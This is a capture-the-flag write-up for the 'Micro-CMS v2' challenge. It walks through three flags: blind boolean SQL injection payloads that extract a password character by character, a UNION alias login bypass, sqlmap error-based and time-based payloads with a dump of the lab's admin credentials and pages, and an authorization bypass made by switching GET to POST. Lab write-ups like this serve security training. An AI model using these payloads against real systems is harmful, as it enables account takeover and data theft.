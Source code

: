 # Micro-CMS v2

## Difficulty: Moderate

## About

This CTF challenge involved a login form vulnerable to SQLi, which is exploited to gain account access.

There are 3 flags to capture from 0-2.

## FLAG2

Navigating the site, pages 1-3 exist, but page 3 (```/page/3```) shows a permission error and all links lead eventually to the login page:

![Login](imgs/1_mcms2.jpg "Login")

Enter a single quote ```'``` into the ```Username:``` field shows that it is vulnerable to SQLi and provides a useful error message:

```
Traceback (most recent call last):
  File "./main.py", line 145, in do_login
    if cur.execute('SELECT password FROM admins WHERE username=\'%s\'' % request.form['username'].replace('%', '%%')) == 0:
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/cursors.py", line 255, in execute
    self.errorhandler(self, exc, value)
  File "/usr/local/lib/python2.7/site-packages/MySQLdb/connections.py", line 50, in defaulterrorhandler
    raise errorvalue
ProgrammingError: (1064, "You have an error in your SQL syntax; check the manual >that corresponds to your MariaDB server version for the right syntax to use near >''''' at line 1")
```

The query used is ```SELECT password FROM admins WHERE username=\'%s\''``` and the DBMS is MySQL.

Before using sqlmap, try exploit it manually, which is less intrusive and can yield different results, some of which sqlmap may miss.

Entering Username: ```'-- ``` yields an ```Unknown user``` error. Entering Username ```' or 1=1-- ``` yields an ```Invalid password``` error. These error messages reflect the TRUE and FALSE values of the entries and can be exploited to find valid usernames and passwords. E.g. to determine the length of the password of a valid password:

Username: ```' or IF(length(password)<10, TRUE, FALSE)-- ```

This query results in error message ```Invalid password```, indicating that the ```IF``` statement returned TRUE, which confirms that the length of the password is less than 10. Similarly, if the error message ```Unknown user``` is shown, it indicates that the ```IF``` statement returned FALSE. Using this query and testing for a length that is TRUE, it is found that the length of the password is ```7```.

Now, each character in the password can similarly be found using ```substring()```: ```' or IF(substring(password,1,1)='x', TRUE, FALSE)-- ```. Here, the first character in the password is tested to see if it equals ```'x'```. By testing all characters against each of the 7 characters in the password and seeing if the ```Invalid password``` error is shon which means it returned TRUE, the password can be found. Write a script or use Burp Intruder to automate this.

E.g. to check if first character an arbritrary value of ```a```: ```' or IF(substring(password,1,1)='a', TRUE, FALSE)-- ```; to check if the second character is ```b```: ```' or IF(substring(password,2,1)='b', TRUE, FALSE)-- ```; and so on until the last character i.e.```(substring(password,7,1)```.

Doing this deduced the password, and upon using it to logon, yielded ```FLAG2```.

#### FLAG2 is captured.

## FLAG0

(Alternate solution than what follows: Upon reviewing the hints, it suggests using a ```UNION``` injection. Therefore, ```UNION``` can be leveraged with keyword ```AS``` to get password from an alias rather than from the actual table e.g. Username: ```' UNION SELECT '1234' as password-- ``` and Password: ```1234``` successfully logs in and allows the viewing of private ```/page/3```. This is much simpler than the exploit that sqlmap found as seen in the following paragraphs.)

The ```IF``` statement query used to find ```FLAG2``` can be exploited further on ```information_schema.tables``` to get the names of databases and tables using columns ```TABLE_SCHEMA``` and ```TABLE_NAME```, but given the large search space this would be very time consuming.

So to save time, try sqlmap on the login form with ```--risk=3``` to try to find a better exploit, which found:

```
Parameter: username (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: username=yZPi' AND (SELECT 7245 FROM(SELECT COUNT(*),CONCAT(0x716a767a71,(SELECT (ELT(7245=7245,1))),0x71766b7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a) AND 'zGLM'='zGLM&password=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=yZPi' AND (SELECT 6535 FROM (SELECT(SLEEP(5)))ExUj) AND 'cIlM'='cIlM&password=
```

Two exploits found: One exploit leverages the error message, the other leverages a blind time-based query to deduce data. Use these to dump to DBs:

```
web server operating system: Linux Ubuntu
web application technology: Nginx 1.14.0
back-end DBMS: MySQL >= 5.0
available databases [4]:
[*] information_schema
[*] level2
[*] mysql
[*] performance_schema

Database: level2
Table: admins
[1 entry]
+----+----------+----------+
| id | username | password |
+----+----------+----------+
| 1  | shayna   | tanesha  |
+----+----------+----------+

Database: level2
Table: pages
[3 entries]
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| id | body                                                                                                                                                                                                                                                                                                                           | title               | public |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
| 1  | ## Version 2\\nThis version fixed the multitude of security flaws and general functionality bugs that plagued v1.  Additionally, we added user authentication; we're still not sure why we didn't think about that the first time, but hindsight is 20/20.  By default, users need to be an admin to add or edit pages now.\\n | Micro-CMS Changelog | 1      |
| 2  | Just testing some markdown functionality.\\n\\n\!\[adorable kitten](https://static1.squarespace.com/static/54e8ba93e4b07c3f655b452e/t/56c2a04520c64707756f4267/1493764650017/)\\n\\n<button>Some button</button>                                                                                                                 | Markdown Test       | 1      |
| 3  | My secret is **FLAG0**                                                                                                                                                                                                                                      | Private Page        | 0      |
+----+--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+---------------------+--------+
```

DB ```level2``` contains the contents of each page, including the private page ```/page/3``` which contains FLAG0.

#### FLAG0 is captured.

## FLAG1

Hints state:
- Just because request fails with one method doesn't mean it will fail with a different method
- Different requests often have different required authorization

This seems to point to HTTP methods. Try changing the method on pages that require authorization e.g.

Change ```GET /x/page/edit/2 HTTP/1.1``` to ```POST /x/page/edit/2 HTTP/1.1```

This emphasizes the fact that successful attacks most commonly emerge from unintended or unexpected input by the developer of the site. Here, a POST request is sent where a GET request is expected and bypasses security measures that exist in the expected GET request.

#### FLAG1 is captured.

All flags captured
=====
